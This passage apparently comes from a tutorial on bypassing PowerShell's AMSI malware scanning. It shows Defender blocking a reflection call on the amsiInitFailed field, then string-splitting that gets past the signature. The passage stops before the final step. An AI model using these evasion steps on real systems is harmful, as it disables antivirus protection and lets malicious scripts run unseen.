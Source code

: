<pre class=" language-powershell" tabindex="0"><code class=" language-powershell"><span class="token function">PS</span> M:\\&gt; <span class="token namespace">[Ref]</span><span class="token punctuation">.</span>Assembly<span class="token punctuation">.</span>GetType<span class="token punctuation">(</span><span class="token string">'System.Management.Automation.'</span><span class="token operator">+</span><span class="token string">'Amsi'</span><span class="token operator">+</span><span class="token string">'Utils'</span><span class="token punctuation">)</span><span class="token punctuation">.</span>GetField<span class="token punctuation">(</span><span class="token string">'amsiInitFailed'</span><span class="token punctuation">,</span><span class="token string">'NonPublic,Static'</span><span class="token punctuation">)</span>
At line:1 char:1
<span class="token operator">+</span> <span class="token namespace">[Ref]</span><span class="token punctuation">.</span>Assembly<span class="token punctuation">.</span>GetType<span class="token punctuation">(</span><span class="token string">'System.Management.Automation.'</span><span class="token operator">+</span><span class="token string">'Amsi'</span><span class="token operator">+</span><span class="token string">'Utils'</span> <span class="token punctuation">.</span><span class="token punctuation">.</span><span class="token punctuation">.</span>
<span class="token operator">+</span> ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software<span class="token punctuation">.</span>
    <span class="token operator">+</span> CategoryInfo          : ParserError: <span class="token punctuation">(</span>:<span class="token punctuation">)</span> <span class="token punctuation">[</span><span class="token punctuation">]</span><span class="token punctuation">,</span> ParentContainsErrorRecordException
    <span class="token operator">+</span> FullyQualifiedErrorId : ScriptContainedMaliciousContent
</code></pre>
<p>Now this snippet may be harder to track down…. With some prior knowledge of PowerShell we can assume that <code>NonPublic</code> and <code>Static</code> are both pretty standard and would not contribute to the signature. We can assume <code>amsiInitFailed</code> is what Defender is alerting on and attempt to split it.</p>
<pre class=" language-powershell" tabindex="0"><code class=" language-powershell"><span class="token function">PS</span> M:\\&gt; <span class="token namespace">[Ref]</span><span class="token punctuation">.</span>Assembly<span class="token punctuation">.</span>GetType<span class="token punctuation">(</span><span class="token string">'System.Management.Automation.'</span><span class="token operator">+</span><span class="token string">'Amsi'</span><span class="token operator">+</span><span class="token string">'Utils'</span><span class="token punctuation">)</span><span class="token punctuation">.</span>GetField<span class="token punctuation">(</span><span class="token string">'amsi'</span><span class="token operator">+</span><span class="token string">'Init'</span><span class="token operator">+</span><span class="token string">'Failed'</span><span class="token punctuation">,</span><span class="token string">'No'</span><span class="token operator">+</span><span class="token string">'nPublic,S'</span><span class="token operator">+</span><span class="token string">'tatic'</span><span class="token punctuation">)</span>

Name                   : amsiInitFailed
MetadataToken          : 67114384
<span class="token namespace">[snip]</span>
<span class="token punctuation">.</span><span class="token punctuation">.</span><span class="token punctuation">.</span>
<span class="token namespace">[snip]</span>
IsSecurityTransparent  : False
CustomAttributes       : <span class="token punctuation">{</span><span class="token punctuation">}</span>
</code></pre>
<p>Success! Now we can append our next snippet to this clean version of the first and second snippet and execute it.</p>